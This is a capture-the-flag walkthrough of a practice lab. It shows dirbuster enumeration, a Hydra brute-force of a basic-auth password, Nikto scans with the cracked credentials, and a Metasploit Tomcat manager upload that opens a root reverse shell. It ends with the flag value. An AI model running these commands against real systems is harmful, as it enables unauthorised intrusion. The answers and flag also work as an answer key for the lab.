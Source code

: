 # Tools R Us
Learning / practising tools

### What directory can you find, that begins with a G?
Just running a dirbuster scan here, we find guidelines
### Whose name can you find from this directory?
visiting /guidelines we see 'hey bob, did you update that tomcat server?'
shows us there's a bob, and a tomcat server which is probably vulnerable (why would this note be here tho?)
### What directory has basic authentication?
just visiting the dirs from the scan, protected asks us for auth
### What is bob's password to the protected part of the website?
tried to guess my way through using hydra but wasn't doing well so moving over to the hydra intro room
After that room, I've come back, had to research a little more on the basic authentication usage and found that this command cracks it:
hydra -l bob -P ~/Wordlists/rockyou.txt 10.10.70.107 http-get  -f -V 
password was 123456 no it wasn't, false positive
forgot to pass the login page via -m, updated command:
hydra -l bob -P ~/Wordlists/rockyou.txt 10.10.70.107 http-get -m /protected  -f -V 
password: bubbles
'The protected page has now moved to a different port' >:(
### What other port that serves a webservice is open on the machine?
Our nmap scan showed 1234 was open, visiting that one gives us a server control panel
### Going to the service running on that port, what is the name and version of the software?
simple enough, just reading off the descrip - apache tomcat/7.0.88
### Use Nikto with the credentials you've found and scan the /manager/html directory on the port found above.
### How many documentation files did Nikto identify?
Pretty long scan, found 5 files. Command used:
nikto -host 10.10.70.107 -root /manager/html -port 1234 -output $(pwd)/niktoscan2.txt -id bob:bubbles

### What is the server version?
Hint says to look in nikto output but haven't spotted anything in here yet..
Got myself too focussed on scanning port 1234, turns out the server in question is port 80.
command used:
nikto -id bob:bubbles -h http://10.10.170.249:80

### What version of Apache-Coyote is this service using?
This info was in the nikto output - 1.1

### Use Metasploit to exploit the service and get a shell on the system. WHat user did you get a shell as?
moving over to msf room
loaded metasploit, used search tomcat to try some exploits - this gives us 21 options.
filtering to try the excellent ranks first, leaves us with 10 options.
exploit/linux/http/cisco_prime_inf_rce - able to upload and execute payload but no session created
exploit/linux/http/cpi_tararchive_upload unable to use - does specify cisco prime infrastructure - maybe this is the issue
skipping ones mentioning cisco - now seeing not all actually even mention tomcat. excellent tomcat exploits count is actually 4
exploit/multi/http/tomcat_jsp_upload_bypass - failed to upload payload
exploit/multi/http/tomcat_mgr_deploy - no luck
multi/http/tomcat_mgr_upload - we're in:
	set LHOST (local ip)
	set LPORT 4444
	set RHOSTS (machine ip)
	set RPORT 1234
	set SSL false
	set TARGETURI /manager
	
	set HttpUsername bob
	set HttpPassword bubbles
	run
gives us a meterpreter session. shell gives us a shell
whoami tells us we're root

trying last excellent exploit just in case!!
exploit/windows/http/tomcat_cgi_cmdlineargs - target not vulnerable

### What text is in the file /root/flag.txt
cat /root/flag.txt
ff1fc4a81affcc7688cf89ae7dc6e0e1
